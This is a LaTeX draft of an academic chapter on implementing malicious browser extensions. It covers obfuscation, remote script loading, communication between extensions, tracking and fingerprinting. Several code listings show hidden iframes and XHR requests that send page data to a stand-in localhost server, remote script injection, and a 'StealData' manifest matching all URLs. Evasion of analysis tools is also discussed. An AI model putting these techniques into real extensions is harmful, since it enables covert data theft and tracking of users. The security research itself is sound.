% !TeX spellcheck = en_US

\section{Extension Implementation} %TODO

	\subsection{Hide Malicious Behavior} %TODO
	
		
	
		%%%% code stored plain inside extension bundle
		% -> detectable by the human eye / static analysis tools like VEX
		
		% mention analysis tooles
		% static and dynamic
		
		
		
		\subsubsection{Code Obfuscation}
			
			Code obfuscation describes the transformation of a program's source code into a form in which it takes more time to analyze it's capabilities and purpose than in it's original state but without changing the execution result. \\
			% not revertible
			% stealthy
			
			It was originally developed to protect a developer's implementation from code plagiarism. Other developers should not be able to understand the concrete implementation of the program or algorithm. Nowadays, it is often used to hide malicious behavior from detection. Code obfuscation changes the code's structure and therefore prevents the detection of known code pattern. It also changes the application's hash signatures which are often used by anti-virus software to identify known threats. A simple method of code obfuscation is to change the order of methods in the source code. This results in a different hash signature for each order but still gives the same result after execution. \\
			
			Code obfuscation is used in programing languages without a strict syntax. The first languages for which obfuscation was used were C and C++. 
			
			% originally used for C or C++, languages without strong syntax specifications, obfuscation often settled in compiled machine code 
			% JavaScript files are not compiled, obfuscation in source code, often enlarges source code
			% strong obfuscation is not or only with great expense reversible
		
			Code obfuscation should not be confused with minification or encryption. Minification targets to decrease the size and hence the download time of JavaScript files. It is often implemented as a script which prints the original script. Although the minimized JavaScript code is not readable by the human eye, its execution returns the original source code. This fact renders minification useless as an obfuscation technique. Similar, encrypted code is unreadable not only to a human but also to the compiler. Consequently, encryption can not be used as an obfuscation technique because obfuscated code has still to be executable. \\
		
			Some techniques which are used for code obfuscation only hamper manual analysis. They change the visual representation of the code and remove information that assist developer to understand the code's capabilities.
			
			\begin{itemize}
				\item \textbf{Remove Comments} Comments help other developers to understand the code. They are often placed next to code sections where the exact operation is not obvious. The removing of comments can not be reverted because there are no traces left which may be used to restore them.
				\item \textbf{Remove Code Structure} Using whitespace, linebreaks, and indenting improves the readability of a source code. Removing them results in a single line of code. There exist many tools that can revert this action. For instance, the JavaScript library \textit{js-prettify} which was especially developed for this task. %TODO cite
				\item \textbf{Rename Variables} Meaningful variable and method names facilitate the comprehension of an application's source code. Replacing them with meaningless or random strings removes a further information that helps understanding the code and increases the probability to mistake variables.
			\end{itemize}
			
			Static analysis tools such as VEX or the implementation from Hallaraker et al. are still able to detect malicious behavior in code which was obfuscated with previously described techniques \cite{Bandhakavi:2011:VBE:1995376.1995398, Hallaraker:2005:DMJ:1078029.1078861}. 
			
			\begin{itemize}
				\item \textbf{String Encoding} The method \texttt{Number.toString(radix)} returns a string representation of the numeric value in the specified radix. This allows to encode single characters with numeric values. For example, if we use a radix of 36, we can encode all lowercase characters starting with \texttt{(10).toString(36)} returns \texttt{"a"} and finishing with \texttt{(35).toString(36)} returns \texttt{"z"}.
				\item \textbf{String Splitting} Splitting strings and concatenating at runtime hides code words in the source code. Adding mathematical calculations to determine the exact location of a string part adds even more confusion.
				\item \textbf{String Based Method Execution} JavaScript methods are normally called with the notation \texttt{object.method()}. But in JavaScript even methods are objects and any object can be called like an associative array. So we can execute a method like this \texttt{object["method"]()}. This allows us to hide method names with the above described techniques of string encoding and splitting. %TODO
				\item \textbf{Dead Code} Adding code sections which ...
				% depend on conditions never true => never executes
				% execute differend 
			\end{itemize}
			
			\begin{table}
				\begin{tabular}{|p{0.473\textwidth}|p{0.473\textwidth}|} \hline
					\multicolumn{2}{|l|}{\textbf{Remove Comments}} \\ \hline
					\begin{lstlisting}
/**
 * Subtract the higher value 
 * from the lower value.
 * @throws If x equals y
 */
function sub(x, y) {...}
					\end{lstlisting} &
					\begin{lstlisting}
function sub(x, y) {...}
					\end{lstlisting} \\ \hline
					\multicolumn{2}{|l|}{\textbf{Remove Code Structure}} \\ \hline
					\begin{lstlisting}
function sub(x, y) {
  if(x < y) {
    return(y - x);}
  }
  if(x > y) {
    return(x - y);
  }
  throw new Exception();
}
					\end{lstlisting} &
					\begin{lstlisting}
function sub(x,y){if(x<y){return(y-x);}}if(x>y){return(x-y);}throw new Exception();}
					\end{lstlisting} \\ \hline
					\multicolumn{2}{|l|}{\textbf{Rename Variables}} \\ \hline
					\begin{lstlisting}
var person = {
  firstname: 'Paul',
  lastname: 'Hendricson',
  age: 32,
  city: 'Darmstadt'
}
					\end{lstlisting} &
					\begin{lstlisting}
var IlIIlI = {
  IllIlI: 'Paul',
  IlIllI: 'Hendricson',
  IIlIlI: 32,
  IlIlII: 'Darmstadt'
}
					\end{lstlisting} \\ \hline
				\end{tabular}
			\end{table}
			
			
			\begin{table}
				\begin{tabular}{|p{0.473\textwidth}|p{0.473\textwidth}|} \hline
					\multicolumn{2}{|l|}{\textbf{String Encoding}} \\ \hline
					\begin{lstlisting}
var x = "hello";
					\end{lstlisting} &
					\begin{lstlisting}
var x = (17).toString(18) 
  + (14).toString(23) 
  + (21).toString(24) 
  + (21).toString(30) 
  + (24).toString(29);	
					\end{lstlisting} \\ \hline
					\multicolumn{2}{|l|}{\textbf{String Splitting}} \\ \hline
					\begin{lstlisting}
var x = "Hello world";
					\end{lstlisting} &
					\begin{lstlisting}
var x1 = "He", x2 = "l", 
  x3 = "o", x4 = "w", 
  x5 = "d";
					\end{lstlisting} \\ \hline
					\multicolumn{2}{|l|}{\textbf{Rename Variables}} \\ \hline
					\begin{lstlisting}
					\end{lstlisting} &
					\begin{lstlisting}
					\end{lstlisting} \\ \hline
				\end{tabular}
			\end{table}
			
			
			% Techniques that change the execu
			
			% techniques:
			% * remove comments
			% * remove whitspace
			% * rename variables/methods with meaningless names
			% * encod strings as numeric values, use .toString to decode
			% * split strings
			% * add dead code
			% 	-> code does not change program execution, increases complexity of control flow,
			% * use JS type names to extract characters and build strings
			%	-> (![]+"")[1] => (false+"")[1] => "false"[1] => "a"
			% * use uncommon methods to execute functions
			% -> eval("alert(1)") => []["some"]["constructor"]("alert(1)")()
			% some techniques are reversible (whitespace)
			
			% detectable through dynamic analysis or information flow tracing
			% code execution
			% webeval detects obfuscated or minification by comparing the length of the original to a pretified version
			% many open source libraries
		
		\subsubsection{Remote Loaded Scripts}
			
			Another possibility to hide a malicious code snippet is to load it from a remote server and execute it at runtime. The code is not present in the extension's installation and can therefore not be detected by a static analysis. \\
		
			An extension has several possibilities to load a remote script. HTML pages which are bundled in the extension's installation can include \texttt{<script>} elements with a \texttt{src} attribute pointing to a remote server. If the extension is executed and the page is loaded, the browser automatically loads and executes the remote script. This mechanism is often used to include public scripts for example from Google Analytics. \\
			A WebExtension needs to explicit state that it wants to fetch remote scripts in its background page. The default Content Security Policy disables the loading of scripts per script element which have another origin than the extension's installation. We can relax the default CSP and enable the loading of remote scripts over HTTPS by adding an URL pattern for the desired origin. The CSP allows wildcards in the URL pattern, but only for subdomains. The domain itself has to be explicit stated denying the attacker the possibility to disguise the address of his remote server. \\

			Extensions are able to load resources with a XMLHttpRequest. If called from a content script, the XMLHttpRequest will be blocked by the Same Origin Policy if the target does not match the current web page's origin. However, the same restriction does not apply to the extension's background. If the XMLHttpRequest is executed from within the background process, any arbitrary host is allowed as target. \\
			Again, WebExtensions underly a further restriction. Only if a matching host permission is declared in the extension's manifest, the browser will allow the web request. The attacker has to declare an URL pattern which matches his remote server. To disguise the concrete URL of his remote server, the attacker may take use of the pattern \url{http://*/*} and \url{https://*/*}. \\
			The JavaScript extract in \coderef{xhrLoadScript} shows how to fetch a remote script with an XMLHttpRequest. On the first line, we create a new XMLHttpRequest object. This is a standardized API and available to JavaScript in all current browsers \cite{w3cXMLHttpRequest}. The event handler on line 2 till 6 that listens to the \texttt{onreadystatechange} event, handles the response from our request. In our case, the response will be our remote loaded script. We have to check whether the \texttt{readyState} equals 4, which indicates that the operation is done and the response is loaded. The \texttt{open} method on line 7 defines the request type and the target URL and finally on line 8 we execute the request. The \texttt{send} method could take a message that would be sent as a parameter along the request. In our case, this is not necessary because we only want to fetch a resource. 
			
			\begin{code}
				\begin{lstlisting}
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
  if (xhr.readyState == 4) {
    handleScript(xhr.responseText);
  }
}
xhr.open('GET', 'https://localhost:3001/javascripts/simple.js');
xhr.send();
				\end{lstlisting}
				\caption{Load remote script with a XMLHttpRequest}
				\label{xhrLoadScript}
			\end{code}
			
			Scripts which are loaded remotely with an XMLHttpRequest are not executed directly. The request only fetches the script as plain text. To execute the script, we have to consider what the scripts objectives are. Whether it should act in the extension's background or as a content script. If the first case applies, we can use the JavaScript method \texttt{eval} to execute the remote loaded text as a JavaScript application. The use of eval is frowned upon because it is a main source of XSS attacks if not used correctly \cite{mozillaDangerousEval}. On that account, the default CSP of a WebExtension disables the use of eval in its background process. We can relax the default policy and add the key \texttt{unsafe\_eval} to lift the restriction. \\
			
			If we want to execute the remote loaded script as a content script, we can programmatically inject it. A WebExtension can use the method \texttt{chrome.tabs.executeScript} to execute a given string as a content script in a currently open tab. To use this feature, the extension needs the \texttt{tabs} permission. This permission is also granted, if the extension uses the \texttt{activeTab} permission but with the drawback that we can only inject the script if the user invokes the extension. A Firefox Add-on can inject the script in an open tab with the method \texttt{require("sdk/tabs").activeTab.attach}. But other than WebExtensions, it can also register a content script with an URL pattern at runtime using the \texttt{sdk/page-mod} module. \\
			
			If we want to execute our remote loaded script only in the scope of a web page, we can take use of the DOM API. It allows us to add a new script element to the current web page. If we set the source attribute of the script element to the URL of our remote server, the browser will fetch and execute the script for us. As a proof of concept, we  implemented a WebExtension that executes the content script shown in \coderef{contentScriptRemotLoad} in any web page without the need for further permissions. The content script creates a new \texttt{script} element, sets the element's \texttt{src} attribute to the URL of our remote server and appends it to the web page's body. The remote loaded script is immediately executed. The disadvantage of this approach is, that the URL to the remote server is plainly visible to the user. A possible solution would be to delete the script element, after the script has finished its execution.
			
			\begin{code}
				\begin{lstlisting}	
var script = document.createElement('script');
script.setAttribute('src', 'https://localhost:3001/javascripts/simple.js');
document.body.appendChild(script);
				\end{lstlisting}
				\caption{Content Script that executes a remote loaded script}
				\label{contentScriptRemotLoad}
			\end{code}
		
			% A dynamic analysis will detect remote loaded scripts. It analyzes the extension at runtime, hence while the remote loaded scripts are present. Some approaches can also be detected by a static analysis. For example script elements that fetch a remote script at execution, contain the 
	
		\subsubsection{Mutual Extension Communication}
				
			An extension is able to communicate with another extension. This opens the possibility of a permission escalation as previously described by Bauer et al. \cite{extensions:cns14}. The extension which executes the attack does not need the permissions to fetch the malicious script. Another extension can execute this task and then send the remote script to the executing extension. This allows to give both extensions less permissions and thus making them less suspicious especially for automatic analysis tools. To detect the combined malicious behavior, an analysis tool has to execute both extensions simultaneously. This is a very unconventional approach, because an analysis often targets only a single extension at a time. \\
			
			A communication channel that does not need any special interface can be established over any web page's DOM. All extensions with an active content script in the same web page have access to the same DOM. The extensions which want to communicate with each other can agree upon a specific DOM element and set it's text to exchange messages. Another way to exchange messages is to use the DOM method \texttt{window.postMessage}. This method dispatches a \texttt{message} event on the web pages \texttt{window} object. Any script with access to the web page's \texttt{window} object can register to be notified if the event was dispatched and then read the message. \\
			
			The code shown in \coderef{postMessageListener} and \coderef{postMessageMethod} is an example how to use this method. In \coderef{postMessageListener} we add an event listener to the \texttt{window} object that listens to the \texttt{message} event. The event handler method awaits the key \texttt{from} to be present in the event's data object and the value of \texttt{from} to equal \texttt{extension}. We use this condition to identify messages which were dispatched by an extension. Further, the handler awaits that the message from the other extension is stored with the \texttt{message} key. In \coderef{postMessageMethod} we create our message object with the key-value pairs \texttt{"from":"extension"} and \texttt{"message":"secret"} and call the \textit{postMessage} method with our message object as first parameter. The second parameter defines what the origin of the \texttt{window} object must be in order for the event to be dispatched. In our case, the web page and all content scripts share the same \texttt{window} object. Therefore, a domain check is unnecessary and we us a wildecard to match any domain.
			
			\begin{code}
				\begin{lstlisting}
window.addEventListener("message", function(event) {
  if(event.data.from && event.data.from === "extension") {
    handle(event.data.message);
  }
});
				\end{lstlisting}
				\caption{Event handler for the postMessage method}
				\label{postMessageListener}
			\end{code}
			
			\begin{code}
				\begin{lstlisting}
var message = {
  "from"   : "extension",
  "message": "secret"
}
window.postMessage(message, "*");
				\end{lstlisting}
				\caption{Call of the postMessage method}
				\label{postMessageMethod}
			\end{code}
		
		
		%%%% fetch different scripts depending on current context
		% no need to hide the servers address if server loads benign scripts most of the time
		% context: web page, user, device
	
	\subsection{Communication}
	
		An important part for browser attacks is the communication between the malicious extension and the attacker. We have already shown that we can load scripts from remote servers. In this section, we focus on communication to prepare or execute attacks. \\ %TODO
		
		We can use the a XMLHttpRequest to send data to a remote server. We have preciously shown in \coderef{xhrLoadScript}, that we can fetch a remote script with an XMLHttpRequest. A similar implementation can be used to send any information to a server. Only the method that handles the response needs to be adapted. In our implementation, we used the code shown in \coderef{xhrSendData} to send a message to our remote server. Similar to \coderef{xhrLoadScript}, we first create a new XMLHttpRequest object and set the request type and the target URL. Because we only want to send information out and do not care about the response, we do not need to declare a response handler like the implementation in \coderef{xhrLoadScript} on line 2 till 6. Instead, we have to set the request's \textit{Content-type} header. This allows our server to correctly decode the web request's message. We decided to use the standard URL notation \cite{w3cUrlSpecifications}. Finally, we deliver our message to the send method which executes the request. 
		
		\begin{code}
			\begin{lstlisting}
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://localhost:3001/log');
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(message);
			\end{lstlisting}
			\caption{Send data to a remote server with a XMLHttpRequest}
			\label{xhrSendData}
		\end{code}
		
		Another strategy to transfer information to a remote host was described by Liu et al. \cite{Liu12chromeextensions:}. They analyzed possible threats in Chrome's extension model through malicious behavior and conducted that an extension can executed HTTP requests to any arbitrary host without cross-site access privileges. For that purpose, they used the mechanics of an \textit{iframe} element. Its task is to display a web page within another web page. The displayed web page is defined by the URL stored inside the iframe's \textit{src} attribute. If the URL changes, the iframe reloads the web page. Adding parameters to the URL allows to send data to the targeted server. As a proof of concept, we implemented the content script shown in \coderef{contentScriptSendDataWithIframe} to send data to our remote server. It creates a new \texttt{iframe} element, hides it by setting the iframe's display style to \texttt{none}, and appends it to the web pages body. The function \texttt{send(data)} expects a string in the standard URL notation \cite{w3cUrlSpecifications}. We append the current web page's URL to the outgoing data to later identify the origin of the transmitted information. Finally, we set the \texttt{src} attribute of our iframe element to execute the web request. \\
		
		\begin{code}
			\begin{lstlisting}
var iframe = document.createElement('iframe');
iframe.setAttribute('style', 'display: none;');
document.body.appendChild(iframe);

function send(data) {
  data += "&url=" + encodeURIComponent(window.location.href);
  iframe.setAttribute('src', 'https://localhost:3001/log?' + data);
}
			\end{lstlisting}
			\caption{Content script that sends data to a remote server using an \texttt{iframe} element}
			\label{contentScriptSendDataWithIframe}
		\end{code}
		
		The Same Origin Policy creates a boundary between the iframe and it's parent web page. It prevents scripts to access content that has another origin than the script itself. Therefore, if the web page inside the iframe was loaded from another domain as the parent web page, the iframe's JavaScript can not access the parent web page and vice versa. This boundary does not prevent an extension to access information in an iframe. The extension can execute a content script in every web page hence in the iframe's web page, too. This allows us to use the content script in \coderef{contentScriptSendDataWithIframe} for a two way communication channel. Executing a second content script inside the iframe, allows us to read information which our server has embedded inside the fetched web page. \\
		
		In a previous research, Liu et al. implemented extensions for major browsers that act as bot in a botnet \cite{liu2011botnet}. Their implementation is able to perform DDoS and spamming attacks. A botnet needs a communication channel over which the attacker controls his bots and sends needed information such as the target for a DoS attack or a spamming text. Liu et al. used the automatic update of extensions as their communication channel. They added a file to the extension's bundle which contains the commands. The extension reads the file and executes the attack.  
		% stealthy
		% distributed attack times, next attack next time user starts browser
	
	\subsection{Attack Vectors}
		
		
		
	\subsection{Targeting}
	
		We have previously described the advantage of identifying the current user. If it was successful, we can exchange an otherwise benign script with a malicious one. This allows us to bypass dynamic analysis tools such as Hulk or WebEval and target specific users \cite{184485, 190984}. In this section, we will describe methods to identify the current user and how an extension can execute or even support these methods. 
		
		\subsubsection{User Tracking}
	
			User tracking refers to the linking of multiple web pages that were visited by the same user, thus allowing to follow the path a user has taken from website to website. User tracking is known to harm the user's privacy and to counter attempts to stay anonymous when browsing in the Internet. %TODO cite 
			But there are also benign reasons for user tracking, for instance improving the usability of a website based on collected information. \\ 
			
			Advertising is the main reason for user tracking. Companies pay large amounts of money to display advertisements for the purpose of increasing their sales volume. Without knowledge about the consumer's interest, a company can not advertise a particular product with success. A consumer is more likely to buy a product - what the goal of advertising is - that fits his needs. Therefore, companies want to collect information's about the consumer and his interests. Given, that more and more consumer use the Internet nowadays, companies focus on websites as advertising medium. The collection and evaluation of a website's user data gives advertising companies the chance to personalize their advertisements. They can display advertisements on websites that with a high degree of probability match the current user's needs. Because this advertising strategy increases their profit, companies pay more money to website's that provide their user data for personalized advertising. Large companies such as Google or Facebook use targeted advertising as their business model. They act as middle man between advertiser and website hosts and provide large advertising networks. Other websites may embed advertisements from those networks which frees them from investing in user tracking and hosting their own servers for advertising. In addition, small websites without a monetization strategy may use embedded advertisements to continue to offer their services for free and still avoid a financial loss. \\
			
			A reason why the displaying of advertisements may be dangerous for a user was researched by Xinyu Xing et al. analyzed Chrome extensions focused on the distribution of malware through the injection of advertisements \cite{Xing:2015:UMT:2736277.2741630}. They analyzed 18,000 extensions and detected that 56 of 292 extensions which inject advertisements also inject malware into web pages. %TODO 
			\\
			
			Another area for which user tracking is used are web analytics. User data and web traffic is measured, collected, and analyzed to improve web usage. Targeted data is primarily the user's interaction with and movement through the website such as how long a web page is visited, how the user enters and leaves the website, or with which functionality he has trouble. On the basis of these information the website's developer can improve a web page's performance and usability. If used for a vending platform, these information can also be used to coordinate for example sale campaigns. \\
			
			The tracking of a user is often accomplished by storing an identifier on the user's system the first time the user visits a tracking website. Reading out the identifier from another website allows to create a tracking profile for the user. In the following list we describe several methods used for user tracking. \\
			
			\begin{itemize}
				\item \textbf{Tracking Cookies} The first web technology used to track users were HTTP cookies. Shortly after the introduction of cookies, first third-party vendors were observed that used cookies to track users between different web pages. %TODO cite
				If a user visits a web page that includes a resource from the tracking third-party, a cookie is fetched together with the requested resource and acts as an identifier for the user. When the user now visits a second web page that again includes some resource from the third-party, the stored cookie is send along with the request for the third-party's resource. The third-party vendor has now successfully tracked the user between two different web pages.  
				
				\item \textbf{Local Shared Objects} Flash player use a technique similar to cookies to synchronize data between different browser sessions. The data is locally stored on the user's system by websites that use flash. Flash cookies as tracking mechanism have the advantage that they track the user behind different browsers and they can store up to 100KB whereas HTTP cookies can only store 4KB. Before 2011, local shared objects could not easily be deleted from within the browser because browser plugins hold the responsibility for their own data. In 2011 a new API was published that simplifies this mechanism \cite{mozillaWikiClearPrivacyAPI}.
				
				\item \textbf{Evercookies} Evercookie is a JavaScript framework implemented to produce persistent identifiers in a browser that are difficult to remove \cite{evercookie}. For that purpose, it uses multiple storage technologies such as HTTP and Flash cookies, HTML5 storages, web history and cache, and unusual techniques such as storing the identifier in RGB values of cached graphics. To hamper the removing from a browser, it recreates deleted identifiers as soon as the user visit a web site that uses the framework. The user has to delete every stored identifier to remove the evercookie completely. 
				
				\item \texttt{Web Beacon} A web beacon is a remote loaded object that is embedded into an HTML document usually a web page or an email. It reveals that the document was loaded. Common used beacons are small and transparent images, usually one pixel in size. If the browser fetches the image it sends a request to the image's server and also sends possible tracking cookies along. This allows websites to track their user on other sites or gives the email's sender the confirmation that his email was read. An example is Facebook's "like" button or similar content from social media websites. Those websites are interested into what other pages their users visit. The "like" button reveals this information without the need to be invoked by the user. 
			\end{itemize}
			
		\subsubsection{Fingerprinting}
			
			Previously described methods for tracking a user identify him based on some data which was intentionally stored on the user's system. Those stored identifiers are vulnerable to deletion by the user. A study from 2010 showed that a browser reveals many browser- and computer-specific information to web pages \cite{Eckersley:2010:UYW:1881151.1881152}. These information are collected and merged to create an unique fingerprint of the currently used browser. Collecting the same information on another web page and comparing it to stored fingerprints, makes it possible to track and identify the current user without the need to store an identifier on the user's computer. Theoretically, it is possible to identify every person on earth with a fingerprint in the size of approximately 33 bit. Currently eight billion people live on our planet. Using 33 bit of different information we could identify $2^{33}=8,589,934,592$ people. But the same kind of information taken from different users will probably equal. Therefore, it is necessary to collect as much information as possible to create an unique fingerprint. \\
			
			The technique of fingerprinting is an increasingly common practice nowadays which is mostly used by advertising companies and anti-fraud systems. It gives the opportunity to draw a more precise picture of a user. This is supported by the increasing use of mobile devices which provides information about the user's location. Furthermore, analyzing visited web pages and search queries give access to the user's hobbies and personal preferences. Advertising companies focus mainly on the user's personal information to display even more precisely adapted advertisements. Whereas, anti-fraud systems use the identification of the currently used devices to detect possible login tries with stolen credentials. If someone tries to log in to an account, the anti-fraud system compares the fingerprint of the currently used device with stored fingerprints for that account. If the fingerprint does not match, the user either uses a new device or someone unknown got access to the user's credentials. In this case, the web services often use further identification techniques such as personal security questions or similar. \\
			
			Fingerprinting is known to harm privacy even more than simple tracking, because more personal information are gathered and stored. People fear that everything they do on the Internet is stored and may be used to harm them. This may become reality. Many politicians discuss about a data preservation to fight terrorism and criminals. Although these ideas are ...(ehrhaft), the fear that the information are misused in some form remains. %TODO
			
			For example may a health insurance increase contributions because the insurant often books journeys to countries with a higher risk of an injection or a worker is accused to reveal company secretes because he often communicates with a friend who works for the competition and fired as a result. \\
			
			
			
			% usage of mobile devices increases => devide tracking, location tracking
			% anti-fraud, identify account access with stolen credentials, identify current user and compare to stored information connected to username
			% fingerprinting + tracking => more data, 
			% collected personal data (hobbys, preferences, health status) from visited websites, search queries
			% people fear everything they do on the Internet is stored, data preservation
			% worst case szenarios: health insurance increase contributions because insurant often bookes journeys to dangerous areas or does extreme sports, boss fires user because user often communicates with a friend that works for the competition accuses him to reveal comany secretes
			% positive szenarios: identification of terrorists, tracking of criminals
			
			There exists numerous scientific papers about fingerprinting techniques \cite{paulstone_historysniffing, MBYS11, Nikiforakis:2013:CME:2497621.2498133, Eckersley:2010:UYW:1881151.1881152, MS12, olejnik:hal-00747841}. Because detailed descriptions are off topic for our paper, we focus on a brief description of popular methods. %TODO detailed describtion/brief describtion
			
			\begin{itemize}
				\item \textbf{Browser Fingerprinting} The browser provides a variety of specific information to a web page that can be used to generate a fingerprint of the user's browser. The following list shows examples of fingerprinting properties and how to access them using JavaScript. 
				
				\begin{tabular}{|l|l|p{0.47\textwidth}|}
					\hline
					\textbf{Property} & \textbf{JavaScript API} & \textbf{Example Output} \\
					\hline
					System & \texttt{navigator.platform} & "Win32" \\ \hline
					Browser Name & \texttt{navigator.userAgent} & "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:44.0) Gecko/20100101 Firefox/44.0" \\ \hline
					Browser Engine & \texttt{navigator.appName} & "Netscape" \\ \hline
					Screen Resolution & \texttt{screen.width} & 1366 (pixels) \\
					& \texttt{screen.height} & 768 (pixels) \\
					& \texttt{screen.pixelDepth} & 24 (byte per pixel) \\ \hline
					Timezone & \texttt{Date.getTimezoneOffset()} & -60 (equals UTC+1) \\ \hline
					Browser Language & \texttt{navigator.language} & "de" \\ \hline
					System Languages & \texttt{navigator.languages} & ["de", "en-US", "en"] \\ \hline
				\end{tabular}
				
				\item \textbf{Fonts} The list of fonts available to a web page can serve as part of a user identification. The browser plugin Flash provides an API that returns a list of fonts installed on the current system. As per current scientific works, the order of the fonts list is stable and machine-specific. %TODO cite
				If the Flash plugin is not available in a browser, JavaScript can be used to test whether particular fonts are installed or not. This approach needs a predefined list and may not cover unpopular fonts. It is implemented by writing a string with each font on the web page. If a font is not installed, the browser uses a fall-back font to draw the text. Comparing the width and hight of the drawn font to those of the fall-back font gives an evidence about the font being installed. 
				
				\item \textbf{History Sniffing} Reading out the user's web history can not only serve as fingerprinting method but also to simplify user tracking. The attacker  An outdated approach to test if a user has visited a particular web page was to use the browser's feature to display links to visited web pages in a different color. A web site would hidden from the user add a list of URLs to a web page as link elements and determinate the displayed color. Nowadays, link elements that were queried by JavaScript calls behave like unvisited links fixing the tread from this sniffing attack. A current approach detects the redrawing of link elements to determine if the underlying web page was visited before \cite{paulstone_historysniffing}. If a link is drawn the first time, it is drawn as an unvisited link and simultaneously a query to the browser's web history database is send. When the query returns that the web page behind the link was visited before, it redraws the link element. This event can be captured giving the desired evidence.
				
				\item \textbf{JavaScript Benchmark Testing} The execution speed of a JavaScript engine depends on the implementation but also on the systems processor architecture and clock speed. Keaton Mowery et al. implemented a set of benchmark test suits to fingerprint different execution speeds \cite{MBYS11}. Using these information, they could distinguish between major browser versions, operating systems and micro architectures. 
			\end{itemize}
		
		\subsubsection{Implementations}
			
			We have shown techniques which are used in web page's to track and identify the current user. Almost all techniques are based on JavaScript and executed inside the current web page. Therefore, an extension which has full access to the web page can also execute them. \\
			
			\textbf{Identifier Storage} An extension is able to store information between browser sessions. Chrome provides an additional cloud based storage that is automatically synced with all devices if the user uses Chrome with his Google account. Firefox Add-ons on the other hand are able to store information on the user's hard disk. We can use this mechanism to provide a storage for a tracking identifier additional to cookies or similar. Such identifier are propagated from a web page to the browser. To receive one, we can use a previous described technique for communicate between a content script and the underlying web page. \\
			
			% TODO
			
			\textbf{Web Beacon} This is another tracking method which we can support with an extension. It notifies a third party that a specific web page was accessed by fetching a resource from a server and sending possible tracking cookies along the request. We implemented an extension that embeds an invisible iframe element in every visited web page. The iframe loads an empty web page from our server along with a tracking cookie. The second time our content script is executed, the tracking cookie will be sent back to our server with the request from the iframe. The extension needs a single content script with the matching attributes \texttt{"http://*/*"} and \texttt{"https://*/*"} and no further permissions. The content script is shown in \coderef{contentScriptWebBeacon}.
			
			\begin{code}
				\begin{lstlisting}
var iframe = document.createElement('iframe');
iframe.setAttribute('src', 'https://localhost:3001/tracking/beacon');
iframe.setAttribute('style', 'display: none;');
document.body.appendChild(iframe);
				\end{lstlisting}
				\caption{Content script that executes a web beacon}
				\label{contentScriptWebBeacon}
			\end{code}
		
			\textbf{Keylogger} JavaScript enables us to register events for every interaction the user has with the current web page. This gives us the possibility to exactly observe what elements the user clicks, double clicks, or drag and drops and what text he enters in input fields. If we combine all these information, we are able to track the user on his path through the web page. 
		
			\textbf{Additional Fingerprint Information} The browser provides additional information to its extension which are not available for web pages. Those information may be used to generate a more accurate fingerprint of the user's browser and system. Accessing the information needs additional permissions. \ref{fingerprintExtension} shows provided information that may be retrieved for a fingerprint and the permissions needed to access them. \\
			
			\begin{table}[h]
				\begin{tabular}{|l|l|l|} \hline
					\textbf{Permission} & \textbf{Information} & \textbf{Example} \\ \hline
					system.cpu & Number of processor kernels & \\
					& Processor's name & Intel(R) Core(TM) i5-3210M CPU @ 2.50GHz \\
					& Processor's capabilities & "sse", "sse2", "sse3"  \\ \hline
					system.memory & Memory capacity & 6501200096 \\ \hline
					gcm & An unique ID for the extension instance & \\ \hline
					management & List of installed extensions & Extension ID and version \\ \hline
				\end{tabular}
				\caption{Additional fingerprint information available to WebExtension}
				\label{fingerprintExtension}
			\end{table} 
			
	\subsection{Summary}


\section{OLD}

In this section we focus on what harmful actions can be performed by a malicious extension. For that purpose we show attacks that can be implemented using an extension. Our focal point lies on the multi-browser extension model. We show what permissions are necessary to perform these actions. \\ 

\begin{enumerate}
	\item Steal data from the current displayed web page.
	\item Track the user between websites.
	\item Identify the website's current user. 
	\item Misuse the user's browser to launch attacks.
\end{enumerate} 

\subsection{Data Theft}	

A user operating in the Internet often arrives at situations where he transmits sensitive information to a trusted server or receives them on request. The term "sensitive" is not bound to specific information but rather describes a class of information which is important in the current context. In our context - where we are concerned with stealing information from web pages - "sensitive" describes values that are stored inside a web page and may be misused in some form by an attacker. Some examples of data valuable for an attacker are credentials, credit card numbers, addresses, social security numbers, or identity numbers. If an attacker obtains these information he will certainly harm the user and enrich himself to the detriment of the robbed user. \\

A cryptographic secured communication channel is often used when sensitive information are transmitted over the Internet. This hampers attackers who try to intercept the communication and steal the information. Therefore, web criminals seek to steal the desired information directly from the browser before any cryptography mechanism is applied. The attacker has to gain control over the user's browser to access the information stored inside a displayed web page. \\

In the following section we show that an extension is an efficient tool to steal sensitive information from displayed web pages. We implemented several content scripts that steal information from different occurrences and with different strategies. Once installed, our extension reads the displayed web pages, extracts valuable information, and sends these to an remote server. For that purpose it needs the following manifest file:

\begin{lstlisting}
{
"manifest_version": 2,
"name": "StealData",
"description": 
"Extension that steals data from the currently visible web page. 
Sends data to http://localhost:3000/log",
"version": "1.0",
"content_scripts" : [
{ 
"matches": [ "http://*/*", "https://*/*" ],
"js" : ["jquery.js", "content.js"] 
}
]
}
\end{lstlisting}

Our manifest declares besides the necessary extension information only two content scripts which are executed in every web page. The first content script \texttt{jquery.js} is an instance of the popular JavaScript library \textit{jQuery} \footnote{jQuery homepage \url{https://jquery.com/}} which we use to simplify the interaction with the web page's DOM. The second content script \texttt{content.js} is one of our own implementations that steals sensitive information.

\subsubsection{Send Data}

If we want steal data from a web page from inside the user's browser we first have to consider how to send the data to a remote server. Otherwise the data can not be labeled as "stolen". An extension is able to transfer data with a XMLHttpRequest to any host if it has proper host permissions declared. We, as an attacker, want to remain anonymous. Therefore, we do not want to reveal the remote server in the extension's manifest and hence use host permissions that match any host such as \texttt{"http://*/*", "https://*/*"} or \texttt{<all\_urls>}. The following code snippet shows how we send a message with an XHR to our remote server. \\ %TODO mention statistic about host permission usage from analyze

\begin{lstlisting}
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://localhost:3001/log', true);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(message);
\end{lstlisting}

First, we create a new XHR-object. Then, we open a connection to our remote server with a POST request. We set the correct content type of our request in order that our server is able to decrypt the request's parameter body. And finally, we send our message. \\

